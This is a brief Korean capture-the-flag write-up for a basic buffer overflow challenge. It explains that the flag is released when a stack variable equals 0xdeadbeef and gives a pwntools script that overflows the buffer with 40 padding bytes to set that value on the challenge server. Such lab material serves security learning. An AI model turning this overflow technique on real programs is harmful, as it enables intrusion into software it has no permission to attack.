

# Basic_BOF #1

   
IDA로 분석해보면 변수 v5가 0xdeadbeef이면 flag를 얻을 수 있다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3000)

payload = ''
payload += 'A'*40
payload += p32(0xdeadbeef)

p.send(payload)
p.interactive()
```
